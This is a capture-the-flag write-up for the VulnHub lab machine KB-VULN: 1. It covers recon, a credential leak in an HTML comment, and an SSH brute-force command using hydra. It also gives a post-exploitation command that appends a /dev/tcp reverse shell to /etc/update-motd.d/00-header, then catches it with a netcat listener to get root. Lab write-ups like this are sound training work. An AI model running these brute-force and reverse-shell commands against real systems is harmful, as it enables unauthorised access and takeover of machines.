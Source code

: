 # KB-VULN: 1

[Machine](https://www.vulnhub.com/entry/kb-vuln-1,540/ "https://www.vulnhub.com/entry/kb-vuln-1,540/")

Too easy box =_=

## Reconnaissance

### nmap

* 21 - ftp
* 22 - ssh
* 80 - http

### ftp 

`ls -a` will show .bash_history hidden file. In which you'll the modification of the file 00-header with nano. `00-header` is just a script that will be executed when you log in. 

### web

I did a lot of enumeration on this service with `whatweb`, `nikto`, `dirb`...But I complicated it...

#### Credentials

Here just a comment in the source code. Username: sysadmin. I also did a lot of enumeration because of this username. I didn't think about ssh :)

## Thread modeling

Brute-force the ssh with hydra and then do privilege escalation with the 00-header file.

## Vulnerability analysis

* Information leakage.
* Easy password.
* Wrong permissions of the important script.

## Exploitation

```
hydra -l sysadmin -P /usr/share/wordlists/rockyou.txt 192.168.88.225 ssh -o sysadmin_pass.txt
```

Next ssh log in.

## Post exploitation

echo 'bash -i "bash -c >& /dev/tcp/192.168.88.225/4444 0>&1"' >> /etc/update-motd.d/00-header

ssh log in again with `nc -lnvp 4444` on your machine.

Got root.


